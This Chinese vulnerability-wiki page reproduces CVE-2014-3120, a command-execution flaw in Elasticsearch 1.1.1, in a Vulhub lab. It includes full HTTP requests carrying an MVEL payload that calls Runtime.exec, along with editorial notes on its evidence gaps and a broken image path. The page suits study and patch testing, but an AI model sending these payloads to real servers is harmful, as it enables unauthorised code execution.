

# （CVE-2014-3120）ElasticSearch 命令执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：旧版动态MVEL启用、REST可达、至少一条查询命中文档
- 证据范围：与359/362同机制，Vulhub来源与最小步骤较清楚，宜做主复现候选。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 影响范围只写测试1.1.1，不能代替完整漏洞范围
- 缺禁用动态脚本/升级修复、无创建文档清理
- HTTP JSON用form Content-Type且长度硬编码；图片路径尾巴残渣

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

二、漏洞影响
------------

elasticsearch版本：v1.1.1

三、复现过程
------------

编译及运行环境：

    docker-compose build
    docker-compose up -d

将Java代码放入json中：

    {
        "size": 1,
        "query": {
          "filtered": {
            "query": {
              "match_all": {
              }
            }
          }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
      }

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
      "name": "phithon"
    }

然后，执行任意代码：

    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 343

    {
        "size": 1,
        "query": {
          "filtered": {
            "query": {
              "match_all": {
              }
            }
          }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
    }

结果如图：

ElasticSearch命令执行漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2014-3120/
